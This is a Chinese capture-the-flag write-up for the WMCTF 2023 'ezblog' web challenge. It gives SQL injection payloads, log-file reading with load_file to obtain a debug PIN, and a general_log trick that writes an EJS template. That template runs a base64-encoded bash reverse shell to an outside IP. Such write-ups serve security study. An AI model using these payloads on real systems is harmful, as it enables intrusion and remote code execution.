

# 官方WP
[https://github.com/wm-team/WMCTF-2023](https://github.com/wm-team/WMCTF-2023)<br />[WMCTF 2023_OFFICAL_WRITE-UP_CN.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1692671631506-ce683444-d77f-4edd-b2f0-ce2c4fad0c1a.pdf)
# AnyFileRead

# ezblog
### Sql注入点
该接口第5行`!/\d+/igm.test(id)`逻辑有问题，导致能够进行sql注入
```javascript
app.get("/post/:id/edit", async (req, res) => {
  try {
    // parseInt的性能问题 https://dev.to/darkmavis1980/you-should-stop-using-parseint-nbf
    let id = req.params.id;
    if (!/\d+/igm.test(id) || /into|outfile|dumpfile/igm.test(id)) { // 判断 id是否是纯数字
      res.status(400).send(`Error: '${id}' is invalid id`);
      return;
    }
    // id只能为数字，可以安全的转为number，避免parseInt降低性能
    let post = await (0, posts_1.getPostById)(id);
    res.render("edit", {
      post
    });
  }
  catch (e) {
    res.status(500).send(e);
  }
});
```
```http
/post/0 union select 1,2,3/edit
```
### 获取PIN
通过dockerfile，可以看到项目是通过`pm2`开启
```bash
su ezblog -c 'pm2 start main.js && pm2 logs'
```
`pm2`的默认路径如下
```bash
output: '/home/user/.pm2/logs/out.log'
error: '/home/user/.pm2/logs/error.log'
```
通过`load_file`来读取日志中的PIN码
```bash
/post/0 union select 1,(load_file('/home/ezlog/.pm2/logs/out.log')),3/edit
```
从可以控制调试SQL接口来任意执行SQL语句
```javascript
// 调试SQL语句
app.post("/api/debugger/sql/execute", requireAuth, async (req, res) => {
  let sql = req.body.code;
  // 防止恶意sql
  const waf = ['into', 'outfile', 'dumpfile'];
  let filtered = '';
  if (waf.some((w) => { filtered = w; return sql.toLowerCase().includes(w); })) {
    res.json({
      code: 500,
      message: "Hack!!",
      data: `Error: '${filtered}' is not allowed`
    });
    return;
  }
  if (/execute|immediate/igm.test(sql)) {
    res.json({
      code: 500,
      message: "Hack!!",
      data: `Error: 非预期 is fixed`
    });
    return;
  }
  db_1.connection.query(sql, (err, results, fields) => {
    if (err) {
      res.json({
        code: 500,
        message: "Internal Server Error",
        data: err?.message
      });
      return;
    }
    res.json({
      code: 200,
      message: "OK",
      data: results
    });
  });
});
```
### 方法一 general_log写文件
通过`general_log`来写入到ejs模板中，进行SSTI<br />有一个坑点是，数据库中没有`mysql`数据库，会造成`general_log`失败，所以要自己创建一个`mysql`数据库<br />[2023WMCTF ezblog](https://www.yuque.com/dat0u/ctf/qh9i7y75udvza7ix)
```sql
CREATE DATABASE mysql;
CREATE TABLE mysql.general_log(
  event_time timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
  user_host mediumtext NOT NULL,
  thread_id int(11) NOT NULL,
  server_id int(10) unsigned NOT NULL,
  command_type varchar(64) NOT NULL,
  argument mediumtext NOT NULL
) ENGINE=CSV DEFAULT CHARSET=utf8 COMMENT='General log';
SET GLOBAL general_log_file='/home/ezblog/views/post.ejs';
SET GLOBAL general_log='on';
SELECT "<% global.process.mainModule.require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzI5OTk5IDA+JjE=}|base64 -d|bash'); %>";
```

